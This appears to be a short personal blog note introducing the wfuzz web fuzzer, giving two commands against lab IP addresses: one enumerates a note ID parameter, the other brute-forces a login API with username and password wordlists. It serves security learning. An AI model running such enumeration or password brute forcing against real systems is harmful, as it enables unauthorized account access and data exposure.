 ```yaml
---
title: "Wfuzz introduction"
date: 2020-07-05T10:00:00
categories:
  - blog
tags:
  - wfuzz
  - rough cuts
---
```


wfuzz -c -z range,1-1000 --filter "chars>0" -u http://10.10.134.88/note.php?note=FUZZ

wfuzz -c -z file,Usernames/top-usernames-shortlist.txt -z
file,Passwords/xato-net-10-million-passwords-10000.txt --hs
"Incorrect" -d "username=FUZZ&password=FUZ2Z" -u
http://10.10.0.231/api/user/login

ref:
https://wfuzz.readthedocs.io/en/latest/user/advanced.html
https://wfuzz.readthedocs.io/en/latest/
